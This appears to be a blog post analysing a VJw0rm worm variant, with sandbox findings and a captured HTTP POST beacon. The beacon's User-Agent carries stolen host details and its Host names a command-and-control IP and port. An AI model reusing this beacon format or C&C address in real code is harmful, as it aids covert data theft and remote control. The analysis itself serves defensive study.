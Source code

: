   
title: Vjw0rm hechem0rder2223 Varient
description: Vjw0rm Analysis.
toc: true
authors: fatimaNezhadian

categories: projects
date: '2023-01-22'
lastmod: '2023-01-22'
draft: false
---

  
VJw0rm is a worm that was first released in November 2016 by its primary author, v_B01 (aka Sliemerez).  [^1] It has different variant in JavaScript, Visual Basic, and powershell. This worm steals some system information and executes some commands from a command and control (C&C) server.
  

## Technical Analysis


  
The technical analysis of the VJw0rm consist of sandbox analysis which is done in an online platfrom (app.any.run). Then the PCAP file of the network traffic is analyzed. As the last step, the  malware script file is analyzed to get more insight on its behavior.



### Sandbox



As the first step the virus was analyzed in the *app.any.run* online platform, which reported some malicious behaviour such as writing to start menu file, connecting to command and control (C&C) server, also several suspicious behaviour such as executing scripts, creating files in user directory, application launching itself, reading computer name was reported.



### PCAP

  

Then the PCAP file related to the malware traffic was analyzed, the followings are some important points in the PCAP file:


By analyzing the HTTP packet, I found out that the malware sends a POST request in which the user-agent header contains unusual information.

The *Host* shows the ip address of the cnc server that the malware communicates with.

  

```http

POST /Vre HTTP/1.1

Accept : */*
Accept-Language : en-US
User-Agent : thechem0rder2223_C4BA3647\USER-PC\admin\Microsoft Windows 7 Professional \undefined\\YES\FALSE\
Accept-Encoding : gzip, deflate
Host : 185.157.162.75:2223
Content-Length : 0
Connection : Keep-Alive
Cache-Control : no-cache
```


[^1]:  (https://malpedia.caad.fkie.fraunhofer.de/details/win.vjw0rm)